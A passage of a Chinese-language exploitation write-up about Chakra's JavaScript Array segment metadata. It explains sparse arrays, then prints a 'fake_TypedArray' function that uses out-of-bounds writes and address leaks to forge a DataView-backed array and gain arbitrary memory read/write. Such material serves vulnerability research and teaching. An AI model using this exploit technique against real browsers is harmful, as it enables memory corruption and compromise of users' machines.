 ### <a class="reference-link" name="Array%20%E7%9A%84%E8%83%8C%E6%99%AF%E7%9F%A5%E8%AF%86"></a>Array 的背景知识

[![](https://p4.ssl.qhimg.com/t014c1b35c16c2c354f.jpg)](https://p4.ssl.qhimg.com/t014c1b35c16c2c354f.jpg)<br>
先回顾一下第一篇文章中介绍的 Array 的元数据， 常用的域包括 left 、length、size、 next Segment 几个。

[![](https://p3.ssl.qhimg.com/t01539864fce861029c.jpg)](https://p3.ssl.qhimg.com/t01539864fce861029c.jpg)

Array 头部的 next segment 信息存储的是下一个 segment 的头部，其余的域属于当前的 segment 。为什么Chakra 不把 segment 放在一起，而是用指针的方式链接起来呢？因为 Chakra 在管理数组存储的时候，需要管理一种特殊的数组：Sparse 数组。即以下这种数组使用方式：

```
var arr = new Array(10);
arr[0x100000] = 10;
```

原始的数组空间不足以在索引 0x100000 处存储数据，所以需要 new 一块新的内存， 然后这块数据的相关信息保存在 next segment 位置。



## Fake Array

Array 的背景知识可以解决 fake Array 的问题，进而解决TypedArray 元数据怎么获得的问题。既然我们知道 next segment 保存的是下一个Array的信息， 如果我们利用越界写把它指向 DataView 的元数据，那么不就可以读取TypedArray 的元数据了吗，任意地址读写不就达到了吗？说干就干，我们实现以下逻辑：

```
function fake_TypedArray()`{`
    modify_oob_arr_attri(0x7fffffff);

    var arr_len_index = 0x50000/4 -5 ;
    var arr_size_index = 0x50000/4 -4 ;

    var arr_buff_low = leak_obj_addr(arr_buff) % 0x100000000;

    var addr_dv = leak_obj_addr(dv);

    var int_arr_next_high_index = 0x100000000/4 + 13;
    var int_arr_next_low_index = 0x100000000/4 + 12;
    var int_arr_next_high = parseInt((addr_dv + 0x28) /0x100000000);
    var int_arr_next_low  = (addr_dv + 0x28) % 0x100000000;

    oob_write(vul_arr, int_arr_next_low_index, int_arr_next_low); 
    oob_write(vul_arr, int_arr_next_high_index, int_arr_next_high);
    modify_oob_arr_attri(0x0);

    var index =  arr_buff_low;

    for(var i=0; i&lt; 0x10; i++)`{`
        dv[i] = int_arr[index + i];
    `}`

    oob_write(vul_arr, int_arr_next_low_index, 0); 
    oob_write(vul_arr, int_arr_next_high_index, 0);
    modify_oob_arr_attri(0x7fffffff);

    var obj_arr_0_low  = 0x50000/4; 
    var obj_arr_0_high = 0x50000/4 +1;

    int_arr[obj_arr_0_low] = dv[0xe] &gt; 0x7fffffff ? dv[0xe] - 0x100000000: dv[0xe];
    int_arr[obj_arr_0_high] = dv[0xf];    
    dv_rw = obj_arr[0];    
`}`
```
